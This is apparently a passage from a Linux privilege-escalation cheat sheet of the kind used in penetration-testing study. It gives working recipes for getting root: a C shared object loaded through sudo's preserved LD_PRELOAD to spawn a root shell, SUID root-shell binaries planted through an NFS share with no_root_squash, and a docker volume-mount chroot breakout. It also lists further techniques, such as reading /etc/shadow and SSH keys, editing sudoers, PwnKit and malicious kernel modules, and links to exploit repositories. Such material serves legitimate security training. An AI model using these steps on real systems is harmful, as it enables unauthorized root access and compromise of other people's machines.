Sudo has the ability to preserve certain environment variables:


    $ sudo -l
    Matching Defaults entries for user on this host:
    env_reset, env_keep+=LD_PRELOAD

Compile a shared object (.so) file:


    #include <stdio.h>
    #include <sys/types.h>
    #include <stdlib.h>

    void _init() {
        unsetenv("LD_PRELOAD");
        setresuid(0,0,0);
        setresgid(0,0,0);
        system("/bin/bash");
    }


    $ gcc -fPIC -shared -nostartfiles -o preload.so preload.c

Set the environment variable as part of the sudo command. The full path to the .so file needs to be used. Your user must be able to run the command via sudo.


    $ sudo LD_PRELOAD=/full/path/tp/preload.so apache2
    #
</details>
<details>
<summary>NFS</summary>
 <br> 

NFS allows a host to share file system resources over a network. Access Control is based on the server's file system, and on the uid/gid provided by the connecting client.

Root squashing maps files owned by root (uid 0) to a different ID (e.g. anonymous or nobody). If the "no_root_squash" option is enabled, files owned by root will not get mapped. This means that as long as you access the NFS share as a root (uid 0) user, you can write to the host file system as root.


    $ cat /etc/exports

    /tmp *(rw,sync,insecure,no_root_squash,no_subtree_check)

On your local machine, check that the NFS share is accessible:


    # showmount -e 10.0.0.1
    Export list for 10.0.0.1:
    /tmp *

On your local machine, make a directory to mount the remote share, and then mount it:


    # mkdir /tmp/mount
    # mount -o rw,vers=2 10.0.0.1:/tmp /tmp/mount
    # ls /tmp/mount
    backup.tar.gz  useless

Create an executable that calls /bin/bash with root level permissions in the mounted share and set the SUID bit:


    int main() {
        setresuid(0,0,0);
        setresgid(0,0,0);
        system("/bin/bash");
    }


    # gcc -o rootsh rootsh.c
    # cp rootsh /tmp/mount
    # chmod +s /tmp/mount/rootsh

Now, back on the remote host, execute the executable to spawn a root shell:


    $ /tmp/rootsh
    #

Alternatively, on the remote host, copy the /bin/bash or /bin/sh binary to the NFS directory:


    $ cp /bin/bash /tmp

On your local machine, after mounting the NFS share, create new copies of the files (or chown them to root) and set the SUID/SGUID bits:


    # cp bash rootbash
    # chmod +s rootbash

    OR

    # chown root:root bash
    # chmod +s bash

Now, back on the remote host, run the file. For bash / sh, use the -p command line option to preserve the SUID/SGID (otherwise shell will simply spawn as your own user).


    $ /tmp/rootbash -p
    #

    OR

    $ /tmp/bash -p
    #
</details>
<details>
<summary>Additional Techniques</summary>
 <br> 
1. Environment Variables
Techniques using:

LD_LIBRARY_PATH

LD_AUDIT

LD_DEBUG

Similar to LD_PRELOAD but often overlooked.

2. Scheduled Tasks / at Command
Like cron, but via atd (one-time jobs).

If a user can create at jobs, they can escalate.

3. Docker / LXC Breakouts
If user is in docker group:

bash

    docker run -v /:/mnt --rm -it alpine chroot /mnt sh
Also applies to lxc containers if misconfigured.

4. Exposed Sensitive Files
World-readable private keys:

/etc/shadow

.ssh/id_rsa

.bash_history with creds

5. SetUID Scripts
Dangerous if interpreted by /bin/bash or Python.

Can be bypassed using race conditions or custom interpreters.

6. Abusing passwd / /etc/sudoers
Writable /etc/passwd, /etc/shadow, or /etc/sudoers.

Add a root user or give self sudo.

7. dbus / polkit Exploits
Real-world example: CVE-2021-4034 (PwnKit).

Can escalate from low-priv to root if exploitable version is present.

8. Kernel Modules (if in kmod, insmod, etc.)
If user can load kernel modules:

Write a rootkit or malicious kernel module for privilege escalation.

9. Services Running as Root
If user can edit config or scripts executed by a service (e.g., web server, backup agent), they may hijack execution.

10. User Namespace Escapes (Namespace PrivEsc)
Exploiting the way Linux handles namespaces in containers.

Useful in CTFs and container breakouts.

11. PAM Misconfiguration
Abusing PAM to run arbitrary code on login or via screen savers.

12. Mount Tricks
Mounting system folders over writable mount points.
Example: mount --bind to tamper with /etc/passwd.
 </details>
##########################
Linux Privilege Escalation
##########################

* https://github.com/mubix/post-exploitation
* https://github.com/spencerdodd/kernelpop
* https://github.com/SecWiki/linux-kernel-exploits
* https://www.google.com/search?q=kernel+exploits
* https://github.com/NullArray/RootHelper
* https://greysec.net/showthread.php?tid=1355
* https://github.com/DominicBreuker/pspy
* https://touhidshaikh.com/blog/?p=790
* http://blog.securelayer7.net/abusing-sudo-advance-linux-privilege-escalation/
* https://gtfobins.github.io/
* https://guif.re/linuxeop
* https://github.com/sagishahar/lpeworkshop
* https://github.com/codingo/OSCP-2
* https://infamoussyn.wordpress.com/2014/07/11/gaining-a-root-shell-using-mysql-user-defined-functions-and-setuid-binaries/
* https://www.hackingarticles.in/linux-privilege-escalation-using-suid-binaries/
* https://docs.ansible.com/ansible/latest/user_guide/become.html
* https://payatu.com/guide-linux-privilege-escalation/
* https://github.com/Arrexel/phpbash

